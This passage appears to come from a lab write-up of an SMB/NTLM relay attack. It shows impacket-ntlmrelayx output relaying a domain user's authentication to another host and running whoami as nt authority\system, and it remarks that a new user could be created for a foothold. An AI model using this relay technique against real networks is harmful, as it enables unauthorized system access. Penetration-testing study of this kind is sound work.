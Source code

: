 ```
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[]
[*] SMBD-Thread-5 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, attacking target smb://10.0.2.4
[*] Authenticating against smb://10.0.2.4 as MARVEL/FCASTLE SUCCEED
[]
[*] SMBD-Thread-5 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, attacking target smb://10.0.2.6
[-] Authenticating against smb://10.0.2.6 as MARVEL/FCASTLE FAILED
[*] Service RemoteRegistry is in stopped state
[*] Received connection from MARVEL/fcastle at THEPUNISHER, connection will be relayed after re-authentication
[*] All targets processed!
[*] SMBD-Thread-7 (process_request_thread): Connection from MARVEL/FCASTLE@10.0.2.6 controlled, but there are no more targets left!
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Executed specified command on host: 10.0.2.4
nt authority\system
```

The command `whoami` was executed and delivered the output `nt
authority\system`. This was just a proof of concept. One could also create a
new user to establish a foothold on the attacked machine.

The command `impacket-ntlmrelayx --help` shows a very long help explaining all
available options -- too much to include here.




